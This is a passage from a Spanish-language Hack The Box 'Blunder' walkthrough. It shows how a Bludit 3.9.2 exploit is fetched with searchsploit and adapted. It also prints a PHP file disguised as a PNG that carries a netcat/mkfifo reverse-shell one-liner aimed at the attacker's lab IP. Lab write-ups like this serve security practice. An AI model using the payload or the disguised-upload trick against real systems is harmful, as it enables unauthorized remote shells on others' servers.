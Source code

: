 ![""](/assets/images/htb-blunder/blunder-web4.png)

Buscando un poco en internet, vemos que existe el exploit [exploit-db](https://www.exploit-db.com/exploits/48701) el cual nos ayuda a subir un archivo para tener ejecución de comandos a nivel de sistema. Por lo tanto, lo traemos a nuestra máquina.

```bash
❯ searchsploit -m multiple/webapps/48701.txt
  Exploit: Bludit 3.9.2 - Directory Traversal
      URL: https://www.exploit-db.com/exploits/48701
     Path: /usr/share/exploitdb/exploits/multiple/webapps/48701.txt
File Type: Python script, ASCII text executable

Copied to: /home/k4miyo/Documentos/HTB/Blunder/exploits/48701.txt


❯ mv 48701.txt bludit_rce.py
```

Lo leemos para ver que nos pide o que necesitamos para poderlo ejecutar. Cambiamos los valodres de url, username y password. Ahora creamos nuestro archivo png con contenido php que nos permita entablarnos la reverse shell.

```bash
❯ cat k4mishell.png
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: k4mishell.png
       │ Size: 98 B
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.27 443 >/tmp/f"); ?>
```
